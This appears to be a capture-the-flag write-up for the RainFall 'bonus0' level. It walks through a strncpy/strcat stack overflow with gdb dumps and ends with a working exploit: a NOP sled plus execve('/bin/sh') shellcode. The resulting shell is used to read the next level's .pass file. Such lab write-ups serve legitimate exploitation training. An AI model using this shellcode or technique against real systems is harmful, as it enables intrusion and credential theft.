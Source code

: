 amjnan binary.

in this binary there is a local buffer in main that gets filled by subfunction called by main => `pp` and `p`, after that it prints it using `puts`.

it declares a buffer of size 50 then proceeds to call `pp`.

`pp` function declares 2 buffer each one `20` in size, and then calls `p` function twice, one to fill the first buffer and the other to fill the second buffer. after that it copies the 1st buffer to the `main` buffer using `strcpy`, adds a space in the end, and concatinate the 2nd buffer to `main` buffer using `strcat`.

`p` function declares a huge buffer (4014 in size), fills 4096 of it reading from `stdin` using `read`, replaces the newline character with string terminating 0 and finally copies 20 bytes using `strncpy`.

the problem with this is that if you enter 20 or more characters in the first input you will have no terminating zero in your string which will cause problems. that's what we will use to overflow the main buffer.

```bash
bonus0@RainFall:~$ ./bonus0 
 - 
AAAAAAAAAAAAAAAAAAAA #20 char
 - 
BBBBBBBBBBBBBBBBBBBB #20 char
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB��� BBBBBBBBBBBBBBBBBBBB���
Segmentation fault (core dumped)
```

now we have a way to overwrite the return address but there is still one thing, where will we redirect our program?

if you remember our read call takes a huge piece of the stack we `p` is called maybe we can sneak it there. even if the stack frame is deallocated we can still access the data stored if we catch the address we need: 

```x86asm
(gdb) b p
Breakpoint 1 at 0x80484bd
(gdb) r
Starting program: /home/user/bonus0/bonus0 

Breakpoint 1, 0x080484bd in p ()
(gdb) set disassembly-flavor intel 
(gdb) disas p
Dump of assembler code for function p:
   0x080484b4 <+0>:	push   ebp
   0x080484b5 <+1>:	mov    ebp,esp
   0x080484b7 <+3>:	sub    esp,0x1018
=> 0x080484bd <+9>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080484c0 <+12>:	mov    DWORD PTR [esp],eax
   0x080484c3 <+15>:	call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:	mov    DWORD PTR [esp+0x8],0x1000
   0x080484d0 <+28>:	lea    eax,[ebp-0x1008]
   0x080484d6 <+34>:	mov    DWORD PTR [esp+0x4],eax
   0x080484da <+38>:	mov    DWORD PTR [esp],0x0
   0x080484e1 <+45>:	call   0x8048380 <read@plt>
   0x080484e6 <+50>:	mov    DWORD PTR [esp+0x4],0xa
   0x080484ee <+58>:	lea    eax,[ebp-0x1008]
   0x080484f4 <+64>:	mov    DWORD PTR [esp],eax
   0x080484f7 <+67>:	call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:	mov    BYTE PTR [eax],0x0
   0x080484ff <+75>:	lea    eax,[ebp-0x1008]
   0x08048505 <+81>:	mov    DWORD PTR [esp+0x8],0x14
   0x0804850d <+89>:	mov    DWORD PTR [esp+0x4],eax
   0x08048511 <+93>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048514 <+96>:	mov    DWORD PTR [esp],eax
   0x08048517 <+99>:	call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:	leave  
   0x0804851d <+105>:	ret    
End of assembler dump.
(gdb) ni
0x080484c0 in p ()
(gdb) ni
0x080484c3 in p ()
(gdb) ni
 - 
0x080484c8 in p ()
(gdb) ni
0x080484d0 in p ()
(gdb) ni
0x080484d6 in p ()
(gdb) ni
0x080484da in p ()
(gdb) ni
0x080484e1 in p ()
(gdb) ni
AAAAAAAAAAAAAAAAAAAA
0x080484e6 in p ()
(gdb) x $eax
0x15:	Cannot access memory at address 0x15
(gdb) x/10wx $ebp-1008
0xbffff298:	0x00000044	0x00000044	0x00000004	0x00000004
0xbffff2a8:	0x00000007	0x001a31bc	0x001a31bc	0x001a31bc
0xbffff2b8:	0x00000008	0x00000040
(gdb) x/10wx $ebp-0x1008
0xbfffe680:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe690:	0x41414141	0x0000000a	0x00000000	0x00000000
0xbfffe6a0:	0x00000000	0x00000000
(gdb) x/s $ebp-0x1008
0xbfffe680:	 'A' <repeats 20 times>, "\n"
(gdb) c
Continuing.

Breakpoint 1, 0x080484bd in p ()
(gdb) ni
0x080484c0 in p ()
(gdb) ni
0x080484c3 in p ()
(gdb) ni
 - 
0x080484c8 in p ()
(gdb) ni
0x080484d0 in p ()
(gdb) ni
0x080484d6 in p ()
(gdb) ni
0x080484da in p ()
(gdb) ni
0x080484e1 in p ()
(gdb) ni
BBBBBBBBBBBBBBBBBBBB
0x080484e6 in p ()
(gdb) x $eax
0x15:	 <Address 0x15 out of bounds>
(gdb) x/s $ebp-0x1008
0xbfffe680:	 'B' <repeats 20 times>, "\n"
(gdb) x/10wx $ebp-0x1008
0xbfffe680:	0x42424242	0x42424242	0x42424242	0x42424242
0xbfffe690:	0x42424242	0x0000000a	0x00000000	0x00000000
0xbfffe6a0:	0x00000000	0x00000000
(gdb) disas main
Dump of assembler code for function main:
   0x080485a4 <+0>:	push   ebp
   0x080485a5 <+1>:	mov    ebp,esp
   0x080485a7 <+3>:	and    esp,0xfffffff0
   0x080485aa <+6>:	sub    esp,0x40
   0x080485ad <+9>:	lea    eax,[esp+0x16]
   0x080485b1 <+13>:	mov    DWORD PTR [esp],eax
   0x080485b4 <+16>:	call   0x804851e <pp>
   0x080485b9 <+21>:	lea    eax,[esp+0x16]
   0x080485bd <+25>:	mov    DWORD PTR [esp],eax
   0x080485c0 <+28>:	call   0x80483b0 <puts@plt>
   0x080485c5 <+33>:	mov    eax,0x0
   0x080485ca <+38>:	leave  
   0x080485cb <+39>:	ret    
End of assembler dump.
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB��� BBBBBBBBBBBBBBBBBBBB���

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) c
Continuing.

Program terminated with signal SIGSEGV, Segmentation fault.
```

as you can see the buffer we use in `read` starts at this address `0xbfffe680`, so we can put our shellcode there and hopefully it will work.

and btw we need to know where to put return address in our string: 

```bash
(gdb) r
Starting program: /home/user/bonus0/bonus0 
 - 
AAAAAAAAAAAAAAAAAAAA
 - 
BBBBCCCCDDDDEEEEFFFF
AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFF��� BBBBCCCCDDDDEEEEFFFF���

Program received signal SIGSEGV, Segmentation fault.
0x45444444 in ?? ()
```

now we have everything we need.

```bash
bonus0@RainFall:~$ (python -c 'print "A" * 20'; python -c 'print "BBBBCCCCD\x10\xe7\xff\xbfEEEFFFF" + "\x90" * 200 + "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80"'; cat) | ./bonus0
 - 
 - 
AAAAAAAAAAAAAAAAAAAABBBBCCCCD���EEEFFFF��� BBBBCCCCD���EEEFFFF���
pwd
/home/user/bonus0
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

for some reason i don't fully understand the address i tried to access to execute shellcode didnt work so i used a `nop slide` (because im lazy)
and i just shooted for an address within the `read` buffer and it worked.

there you go.
